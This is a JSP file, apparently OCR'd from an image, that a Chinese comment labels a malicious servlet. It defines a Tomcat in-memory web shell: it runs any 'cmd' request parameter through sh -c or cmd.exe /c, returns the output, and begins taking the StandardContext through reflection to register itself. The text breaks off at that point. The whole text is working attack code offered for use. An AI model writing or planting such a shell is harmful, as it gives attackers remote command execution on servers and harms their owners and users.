 ```jsp
<%@ page import="javax.servlet.FilterRegistration"%>
<%@ page import="javax.servlet.ServletContext"%>
<%@ page import="javax.servlet.ServletException"%>
<%@ page import="javax.servlet.ServletRequest"%>
<%@ page import="javax.servlet.ServletResponse"%>
<%@ page import="javax.servlet.annotation.WebServlet"%>
<%@ page import="javax.servlet.http.HttpServlet"%>
<%@ page import="javax.servlet.http.HttpServletRequest"%>
<%@ page import="javax.servlet.http.HttpServletResponse"%>
<%@ page import="org.apache.catalina.core.ApplicationContext"%>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig"%>
<%@ page import="org.apache.catalina.core.StandardContext"%>
<%@ page import="org.apache.tomcat.util.descriptor.web.*"%>
<%@ page import="org.apache.catalina.Context"%>
<%@ page import="java.lang.reflect.*"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.util.Map"%>

<%!
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

%>
<%
    // 获取StandardContext
    ServletContext ctx = request.getSession().getServletContext();
    Field f = ctx.getClass().getDeclaredField("context");
```